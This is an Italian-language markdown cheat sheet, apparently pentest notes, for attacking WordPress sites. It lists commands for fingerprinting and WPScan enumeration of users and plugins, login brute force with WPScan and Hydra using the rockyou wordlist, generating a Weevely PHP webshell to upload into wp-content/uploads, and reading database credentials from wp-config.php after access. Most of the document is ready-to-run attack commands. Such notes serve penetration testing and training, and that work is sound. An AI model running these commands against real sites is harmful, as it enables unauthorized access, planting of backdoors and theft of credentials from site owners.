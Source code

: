 # 📰 WordPress Exploitation & Enumeration

Appunti e snippet per la fase di **ricognizione e attacco su WordPress**.

## 📌 Obiettivi

* Identificare se il target usa **WordPress**
* Enumerare versioni, plugin, temi e utenti
* Cercare vulnerabilità note sfruttabili
* Preparare brute force / exploit mirati

---

## 🔎 Riconoscere WordPress

**Perché farlo:**
Prima di lanciare WPScan conviene verificare che il target sia effettivamente WordPress.

### 🔹 Comandi rapidi

```bash
# Fingerprint con WhatWeb
whatweb http://<target-ip>/

# Cerca indizi di WordPress (wp-content, wp-admin)
curl -s -I http://<target-ip>/ | grep "wp-"
```

---

## 🛠️ WPScan (Main Tool)

**Perché usarlo:**
Strumento principale per l’enumerazione WordPress: versione, utenti, plugin, temi, vuln DB integrato.

**Opzioni principali:**

* `--url` → target
* `--enumerate` → enumera info (u = users, p = plugins, t = themes, vp = vuln plugins, vt = vuln themes)
* `--api-token` → usa database ufficiale di vulnerabilità (serve token gratuito)
* `-P` → brute force con wordlist
* `-U` → specifica username o lista di utenti

### 🔹 Comandi diretti

```bash
# Enum base
wpscan --url http://<target-ip> --enumerate u

# Enum full scan
wpscan --url http://<target-ip> -e vp,vt,u 

# Enum plugin e versioni vulnerabili
wpscan --url http://<target-ip> --enumerate p --api-token <TOKEN>

# Enum utenti + brute force password
wpscan --url http://<target-ip> -U users.txt -P /usr/share/wordlists/rockyou.txt

```

### 💾 Salvataggio su file

```bash
wpscan --url http://<target-ip> --enumerate u,p,t --api-token <TOKEN> -o wpscan.txt
```

---

## 📦 Droopescan (Alternative CMS Scanner)

**Perché usarlo:**
Può rilevare plugin, temi e versioni di CMS (Drupal, SilverStripe, Joomla, WordPress).

### 🔹 Comando base

```bash
droopescan scan wordpress -u http://<target-ip>/
```

---

## 🗂️ CMSmap (Cross-CMS Enumeration)

**Perché usarlo:**
Supporta più CMS, incluso WordPress. Buono per test veloci.

### 🔹 Comando base

```bash
cmsmap http://<target-ip> -f W
```

---

## 🔑 Login Bruteforce (Hydra Alternative)

**Perché usarlo:**
Se WPScan non basta o vuoi parallelizzare.

### 🔹 Comando con Hydra

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt <target-ip> http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username"
```

---

## 🐚 Upload Shell / Exploit

**Perché usarlo:**
Se puoi caricare file (es. plugin, media upload), testare upload di una **webshell**.

### 🔹 Quick example

```bash
# Usa Weevely per generare una webshell PHP
weevely generate pass123 shell.php

# Caricala in /wp-content/uploads/
```

---

## ⚡ Workflow tipico su WP

1. **Identifica** → WhatWeb / manual check `/wp-content/`
2. **Enumera** → WPScan (utenti, plugin, temi, vuln)
3. **Cerca credenziali** → brute con WPScan/Hydra
4. **Exploita** → plugin vulnerabili o shell upload
5. **Post-Explo** → wp-config.php (credenziali DB)

```bash
# Se ottieni accesso al server → dump credenziali MySQL
cat wp-config.php | grep DB_
```
